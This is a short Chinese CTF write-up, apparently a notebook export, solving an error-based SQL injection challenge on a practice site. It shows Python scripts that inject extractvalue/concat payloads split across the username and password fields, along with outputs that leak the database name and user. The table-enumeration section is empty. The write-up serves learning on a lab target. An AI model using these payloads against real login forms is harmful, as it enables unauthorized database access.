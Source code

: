 # sql注入之报错注入——加了料的报错注入

0x01
===
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/5wspylsy8c8.png" width="600px" />

[题目链接](http://ctf5.shiyanbar.com/web/baocuo/index.php)

0x02 解题
===
### 获取数据库名称
code
```python
import requests

data={'username':"'or extractvalue/*",
"password":"*/(1, concat(0x5c,(select database()))) or'"}
r = requests.post("http://ctf5.shiyanbar.com/web/baocuo/index.php",data=data)
r.encoding='utf-8'
print(r.text)
```
output
```shell
<br>XPATH syntax error: '\error_based_hpf'
```
### 获取用户名称
code
```python
import requests

data={'username':"'or extractvalue/*",
"password":"*/(1, concat(0x5c,(select user()))	) or'"}
r = requests.post("http://ctf5.shiyanbar.com/web/baocuo/index.php",data=data)
r.encoding='utf-8'
print(r.text)
```
output
```shell
<br>XPATH syntax error: '\web8@localhost'

```

### 获取数据表名称


```{.python .input}

```
